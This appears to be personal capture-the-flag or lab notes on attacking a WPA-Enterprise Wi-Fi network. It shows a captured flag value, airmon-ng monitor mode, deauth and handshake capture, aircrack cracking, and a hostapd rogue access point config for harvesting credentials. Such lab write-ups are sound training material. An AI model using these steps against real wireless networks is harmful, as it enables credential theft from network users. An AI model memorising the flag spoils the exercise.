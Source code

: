## The flag
get the flag at the proof.txt resource location

wget http://192.168.1.1/proof.txt
![[Pasted image 20230909033537.png]]
Flag:** 7d35ccfd3797b54d21fd3630279c00cc**
# WPA-MGT

Connection into "xanth"
```
PS C:\Users\prestonzen> ssh kali@192.168.54.24
kali@192.168.54.24's password:
┌──(kali㉿xanth)-[~]
└─$
```

Started monitor mode & ran airodump

```
sudo airmon-ng start wlan0
```

```
sudo airmon-ng start wlan0
```

Found Roogna on channel 11. Also pressed "a" to show all details
![[Pasted image 20230909033958.png]]

Rerun with file save and focus on channel 11

A deauth and crack may be worth a shot

BSSID of Roogna: 02:13:37:BE:EF:03 (Right click to paste in PowerShell)

Seems to have caught the handshake
![[Pasted image 20230909034306.png]]

Running Aircrack on handshake in the meantime while I hit the users and their passwords
![[Pasted image 20230909034419.png]]

Article from my notes on cracking wifi enterprise
https://medium.com/@navkang/hacking-wpa-enterprise-using-hostapd-b0fa8839943d

Prep hosts.conf (remove whitespaces)
```
interface=wlan0  
ssid=Roogna  
channel=11  
hw_mode=g

wpa=3  
wpa_key_mgmt=WPA-EAP  
wpa_pairwise=TKIP CCMP  
auth_algs=3

ieee8021x=1  
eapol_key_index_workaround=0  
eap_server=1  
eap_user_file=hostapd.eap_user  
eapol_key_index_workaround=0  
ca_cert=ca.pem  
server_cert=server.pem  
private_key=server.key  
private_key_passwd=  
dh_file=dhparam.pem  
```